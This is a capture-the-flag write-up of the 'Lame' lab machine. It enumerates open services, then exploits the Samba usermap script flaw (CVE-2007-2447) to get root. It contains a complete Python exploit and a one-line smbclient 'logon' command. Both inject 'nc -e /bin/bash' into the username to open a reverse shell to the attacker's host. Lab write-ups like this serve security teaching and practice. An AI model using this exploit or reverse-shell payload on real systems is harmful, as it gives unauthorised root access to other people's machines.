 # Beginner Track - Lame ![](pics/logo.png)

## Enumeration

```
rustscan 10.129.72.52 -- -sC -sV -o port_scan

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have an open FTP port (21) with Anonymous login allowed, an SSH port (22), open samba ports (139,445) and a a distrubuted c/c++ compiler server on port 3632.

## Examine Port 21 - Anonymous allowed

Connecting to the FTP server as client Anonymous works, however, the directory is completely empty.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
```

## Examine Port 139/445

Let's start by enumerating the smb directories.
```
└──╼ $ smbmap -H 10.129.72.52   
[+] IP: 10.129.72.52:445        Name: 10.129.72.52                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))-
        WORKGROUP            LAME
```

Obviously we have full read and write access to the `tmp` share. 

```
└──╼ $ smbclient //10.129.72.52/tmp
Enter WORKGROUP\ctf's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan  6 13:57:48 2021
  ..                                 DR        0  Sat Oct 31 08:33:58 2020
  .ICE-unix                          DH        0  Wed Jan  6 13:45:02 2021
  5571.jsvc_up                        R        0  Wed Jan  6 13:46:17 2021
  vmware-root                        DR        0  Wed Jan  6 13:45:29 2021
  .X11-unix                          DH        0  Wed Jan  6 13:45:30 2021
  .X0-lock                           HR       11  Wed Jan  6 13:45:30 2021
  vgauthsvclog.txt.0                  R     1600  Wed Jan  6 13:45:00 2021

                7282168 blocks of size 1024. 5385876 blocks available
```

After investigating all the files, and finding nothing, I looked up if there are any known vulnerabilities for this specific Samba version (3.0.20).

```
searchsploit samba 3.0.20
```

![](pics/searchsploit.png)

## Exploitation

The one we need is the "Username" map script. There are two ways you can exploit this vulnerability. Either with metasploit, which runs the exploit without telling you what actually happens in the background OR do it manually and you learn every single step. But that's totally up to you. I decided to try the manual approach.

Explanation of the vulnerability:

CVE-2007-2447 - Samba usermap script
Samba 3.0.0 - 3.0.25rc3 are subject for Remote Command Injection Vulnerability (CVE-2007-2447), allows remote attackers to execute arbitrary commands by specifying a username containing shell meta characters.

The root cause is passing unfiltered user input provided via MS-RPC calls to /bin/sh when invoking non-default "username map script" configuration option in smb.conf, so no authentication is needed to exploit this vulnerability.

To exploit this vulnerability, all you need to do is to change the username for authentication to your payload in combination with `nohup`. I wrote a short python script for that purpose.

```python
#!/usr/bin/python

import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
        payload = 'nc -e /bin/bash 10.10.14.50 4444'
        username = "/=`nohup " + payload + "`"
        conn = SMBConnection(username, "", "", "")
        try:
            conn.connect(rhost, int(rport), timeout=1)
        except:
            print("[+] Done")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
    else:
        print("[+] Connecting !")
        rhost = sys.argv[1]
        rport = sys.argv[2]
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

Here we connect with the user set to our reverse shell payload. 

```
└──╼ $ python3 exploit.py 10.129.72.52 139 10.10.14.50 4444
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Done
```

This results in:

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.72.52] 43267
id
uid=0(root) gid=0(root)
```

An alternative would be to use smbclient to connect to the tmp share.

Afterwards type following:

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.50 4444`"
```
This is the manual approach without a script.

## Post Exploitation

Now we can obtain the userflag (/home/makis/user.txt) and the rootflag (/root/root.txt)